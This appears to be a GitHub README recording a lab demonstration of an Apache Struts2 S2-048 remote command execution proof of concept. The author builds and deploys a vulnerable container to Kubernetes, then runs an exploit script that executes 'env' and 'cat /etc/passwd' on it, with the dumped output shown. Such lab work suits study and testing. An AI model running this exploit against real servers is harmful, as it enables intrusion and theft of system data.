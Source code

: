 # struts_poc

git clone https://github.com/hook-s3c/apache-struts2-PoC

cd apache-struts2-PoC/

docker build -t struts .

docker run -it --rm -d -p 8080:8080 struts:latest

docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest

#public login to us-west-2 not supported by aws

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws

docker push public.ecr.aws/v9f6i2g3/stuff:latest

kubectl apply -f strust-deploy-and-service.yaml

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC
kubectl get service -n struts
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'

KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
STRUTS_PORT_8080_TCP_PORT=8080
STRUTS_SERVICE_PORT=8080
HOSTNAME=struts-7d8c95bbbd-9p9pp
JAVA_HOME=/usr/local/openjdk-8
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5 541FBE7D8F78B25E055DDEE13C370389288584E7 61B832AC2F1C5A90F0F9B00A1C506407564C17A3 713DA88BE50911535FE716F5208B0AB1D63011C7 79F7026C690BAA50B92CD8B66A3AD3F4F22C4FED 9BA44C2621385CB966EBA586F72C284D731FABEE A27677289986DB50844682F8ACB77FC2E86E29AC A9C5DF4D22E99998D9875A5110C01C5A2F6059E7 DCFD35E0BF8CA7344752DE8B6FB21E8933C60243 F3A04C595DB5B6A5F1ECA43E3B7BBB100D811BBE F7DA48BB64BCB84ECBA7EE6935CD23C10D498E23
STRUTS_PORT=tcp://10.100.144.108:8080
PWD=/usr/local/tomcat
TOMCAT_SHA512=612e830913bf1401bc9540e2273e465b0ee7ef63750a9969a80f1e9da9edb4888aa621fcc6fa5ba23cff94a40e91eb97e3f969b8064dabd49b2d0ea29e59b57e
TOMCAT_MAJOR=7
HOME=/root
LANG=C.UTF-8
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
TOMCAT_NATIVE_LIBDIR=/usr/local/tomcat/native-jni-lib
CATALINA_HOME=/usr/local/tomcat
STRUTS_PORT_8080_TCP_PROTO=tcp
SHLVL=0
KUBERNETES_PORT_443_TCP_PROTO=tcp
STRUTS_SERVICE_HOST=10.100.144.108
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TOMCAT_VERSION=7.0.109
STRUTS_PORT_8080_TCP=tcp://10.100.144.108:8080
JAVA_VERSION=8u292
STRUTS_PORT_8080_TCP_ADDR=10.100.144.108
_=/usr/bin/env

ubuntu@brett-jumpbox:~/apache-struts2-PoC$

curl 127.0.0.1:8080/showcase.action -v

#python3 -m venv .

python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)
